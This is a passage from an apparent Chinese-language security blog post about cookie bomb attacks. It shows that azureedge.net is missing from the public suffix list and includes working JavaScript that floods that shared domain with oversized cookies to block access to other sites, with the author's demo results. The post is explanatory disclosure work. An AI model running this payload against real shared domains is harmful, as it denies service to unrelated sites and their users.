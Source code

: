 在針對這點繼續往下之前，其實 cookie bomb 還有更多的攻擊面擴展，可以搭配其他的攻擊手法一起使用，相關的說明以及實際案例很推薦大家去看這個影片：[HITCON CMT 2019 - The cookie monster in your browsers](https://www.youtube.com/watch?v=njQcVWPB1is)，裡面除了 cookie bomb 以外，也提到了其他 cookie 相關的特性。

這場演講裡面利用 cookie bomb 造成的 DoS 搭配其他手法的攻擊方式，真的很漂亮。

## 找到輕易設置 cookie 的地方

有什麼地方可以讓我們輕易設置 cookie，達成 cookie bomb 呢？有，那就是像之前所提過的共用的 subdomain，像是 `*.github.io` 這一種。

可是這種的不是都在 public suffix list 裡面了嗎？沒有辦法設置 cookie。

只要找到沒有在裡面的就好啦！

不過這其實也不是件容易的事情，因為你會發現你知道的服務幾乎都已經註冊了，例如說 GitHub、AmazonS3、Heroku 以及 Netlify 等等，都已經在上面了。

不過我有找到一個沒在上面的，那就是微軟提供的 Azure CDN：azureedge.net

不知道為什麼，但這個 domain 並不屬於 public suffix，所以如果我自己去建一個 CDN，就可以執行 cookie bomb。

## 實際測試

我用來 demo 的程式碼如下，參考並改寫自[這裡](https://github.com/wrr/cookie-bomb/blob/master/bomb.html)：

``` js
const domain = 'azureedge.net'
const cookieCount = 40
const cookieLength = 3000
const expireAfterMinute = 5
setCookieBomb()

function setCookie(key, value) {
  const expires = new Date(+new Date() + expireAfterMinute * 60 * 1000);
  document.cookie = key + '=' + value + '; path=/; domain=' + domain + '; Secure; SameSite=None; expires=' + expires.toUTCString()
}

function setCookieBomb() {
  const value = 'Boring' + '_'.repeat(cookieLength)
  for (let i=0; i<cookieCount; i++) {
    setCookie('key' + i, value);
  }
}
```

接著在 Azure 上面上傳檔案然後設置一下 CDN，就可以得到一個自訂的網址：https://hulitest2.azureedge.net/cookie.html （我的 azure 過期了，所以現在點進去應該會壞掉）

點了之後就會在 `azureedge.net` 上面設置一堆垃圾 cookie：

![](/img/cookie-bomb/p2.png)

重新整理後，會發現網站真的不能存取了：

![](/img/cookie-bomb/p3.png)
